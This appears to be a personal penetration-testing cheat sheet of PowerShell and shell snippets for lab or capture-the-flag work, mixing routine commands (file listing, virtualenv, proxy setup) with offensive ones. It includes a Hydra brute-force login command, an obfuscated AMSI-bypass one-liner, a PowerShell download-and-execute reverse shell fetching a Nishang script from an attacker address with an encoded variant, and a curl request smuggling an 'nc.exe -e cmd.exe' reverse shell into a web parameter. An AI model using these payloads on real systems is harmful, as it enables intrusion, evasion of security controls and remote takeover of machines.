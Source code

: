 
>[!code]- Recursively...
>###### Cat files
>```powershell
>#All
>find . -type f -exec cat {} + 2>/dev/null
># Non-binary files only
>find . -type f -exec sh -c 'file --mime {} | grep -vq "charset=binary" && cat {}' \;
># Output filenames too
>find . -type f -exec sh -c 'file --mime {} | grep -vq "charset=binary" && echo "=== {} ===" && cat {}' \;
>```
>###### Ls...
>```powershell
># Files
>ls -alR 2>/dev/null
>dir /S
>gci -recurse
>
># Directories
>gci -path "C:\" -directory -recurse -erroraction silentlycontinue
>```
>###### Find
>```powershell
>Get-ChildItem -Path "C:\" -Filter "local.txt" -Recurse -ErrorAction SilentlyContinue
>```

>[!code]- Brute force login
>###### Hydra
>```powershell
>hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
>```

>[!code]- Virtual python environment
>Must use a verson of virtualenv <= 20.21.1 as [later versions don't support python2 virtual environments](https://stackoverflow.com/questions/76380381/create-virtualenv-for-python-2-7-with-python-3-10).
>
>```powershell
># Create Python2 virtualenv (perhaps in folder of python script)
>virtualenv -p /usr/bin/python2 ./virtualenvs/2/env
>
># Create Python3 virtualenv
>virtualenv ./virtualenvs/3/env
>
># Activate virtualenv
>source ./virtualenvs/2/bin/activate
>
># Deactivate
>deactivate
>```

>[!code]- TTY shell
>
>```powershell
>python -c 'import pty;pty.spawn("/bin/bash")'
>
>ctrl+z
>stty raw -echo; fg
>
>export TERM=xterm-256color
>```

>[!code]- Bypass AMSI
>###### Not checked as working
>```powershell
>sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
>```
>Or
>```
>S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
>```

>[!code]- PowerShell encoded reverse shell
>###### Setup listener to server nishang-ps-rev.ps1 (6666) & catch the reverse shell (5555)
>###### Encode a payload [via CyberChef](https://cyberchef.io/#recipe=Encode_text('UTF-16LE%20(1200)')To_Base64('A-Za-z0-9%2B/%3D')&input=SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8vMTAuMTAuWC5ZL05pc2hhbmctSW52b2tlLVBvd2VyU2hlbGxUY3AucHMxIik7IEludm9rZS1Qb3dlclNoZWxsVGNwIC1SZXZlcnNlIC1JUEFkZHJlc3MgMTAuMTAuWC5ZIC1Qb3J0IDEwMDA7IFdyaXRlLUhvc3QgIkJ1YmJ6Ig)
>```powershell
>IEX (New-Object Net.WebClient).DownloadString("http://10.10.X.Y/Nishang-Invoke-PowerShellTcp.ps1"); Invoke-PowerShellTcp -Reverse -IPAddress 10.10.X.Y -Port 1000; Write-Host "Bubbz"
>```
>###### Execute the payload
>```powershell
>powershell -enc SQBFAF...BoAGUAaABlACIA
>```

>[!code]- Edit environmental PATH variable
>###### Windows
>```powershell
># Execute cmd and PS commands
>set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
>
>set PATH=%SystemRoot%\system32;%SystemRoot%;
>```

>[!code]- Auto URL-encode curl requests
>###### `-G --dataurlencode`
>```powershell
># General structure
>curl -G --data-urlencode `<parameter>=<parameter value>`  `<web address>`
>
># Example
>curl -G --data-urlencode '0=nc.exe -e cmd.exe 192.168.45.211 445' http://192.168.120.189:8080/commander.php
>
># Which is equivalent to
>http://192.168.120.189:8080/commander.php?0=nc.exe%20-e%20cmd.exe%20192.168.45.211%20445
>```

>[!code]- Paste a multi-line string into a file with EOF
>###### Linux
>Where you type the first line, paste in the multi-line string, then type EOF
>
>![Pasted image 20241211063448](Images/Pasted%20image%2020241211063448.png)

>[!code]- Route traffic through a proxy (Burp)
>###### Curl
>```powershell
># /etc/proxychains4.conf
>http 127.0.0.1 8080
># ----
>proxychains curl http://172.168.16.3:80
>```
>###### Nmap
>```powershell
># Not all Nmap features support the --proxies command
>nmap --proxies http://127.0.0.1:8080 SERVER_IP -p PORT -Pn -sC
>
>proxychains nmap # nmap commands
>```
>###### Metasploit
>```powershell
># Set a proxy for any exploit
># (with an exploit selected)
>set PROXIES HTTP:127.0.0.1:8080
>```